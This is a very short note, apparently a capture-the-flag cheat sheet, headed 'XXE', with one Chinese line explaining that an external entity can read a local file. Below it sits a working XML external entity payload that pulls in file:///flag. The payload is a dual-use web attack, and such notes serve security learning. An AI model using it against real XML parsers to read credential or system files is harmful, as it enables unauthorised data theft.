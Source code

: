 # XXE
1. 利用引入外部資源，對本地檔案做讀取
```
<!DOCTYPE hack[ 
  <!ENTITY xxe SYSTEM "file:///flag"> 
]> 
<root>&xxe;</root>
```
